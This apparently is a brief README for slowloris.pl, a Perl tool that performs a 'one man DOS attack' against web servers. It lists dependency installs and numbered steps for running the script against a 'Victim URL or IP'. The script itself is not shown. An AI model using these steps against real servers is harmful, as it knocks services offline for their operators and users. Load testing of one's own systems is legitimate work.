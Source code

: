 # Slowloris
slowloris.pl

Slow loris attack testing tool (one man DOS attack)

How use Slowloris

Requirements:
# sudo apt-get update  
# sudo apt-get install perl
# sudo apt-get install libwww-mechanize-shell-perl
# sudo apt-get install perl-mechanize


1)Download slowloris.pl
2)Open Terminal
2)# cd /thePathToYourSlowloris.plFile
3)# ./slowloris.pl
4)# perl slowloris.pl -dns (Victim URL or IP) -options
